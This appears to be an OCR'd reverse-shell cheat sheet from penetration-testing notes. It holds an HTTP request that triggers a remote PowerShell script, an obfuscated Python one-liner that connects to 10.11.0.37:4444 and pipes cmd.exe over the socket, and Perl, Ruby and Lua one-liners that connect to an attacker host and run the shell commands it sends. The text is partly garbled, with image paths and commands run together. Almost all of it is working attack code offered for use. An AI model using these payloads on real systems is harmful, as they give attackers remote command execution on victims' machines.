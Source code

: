 Execute the base64 decoded file:

```http
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=powershell C:\Temp\pwned.ps1
```

### Python

```
#WindowsC:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.11.0.37', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

### Perl

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Ruby

```
#Windowsruby -rsocket -e 'c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Lua

```
lua5.1 -e 'local host, port = "127.0.0.1", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
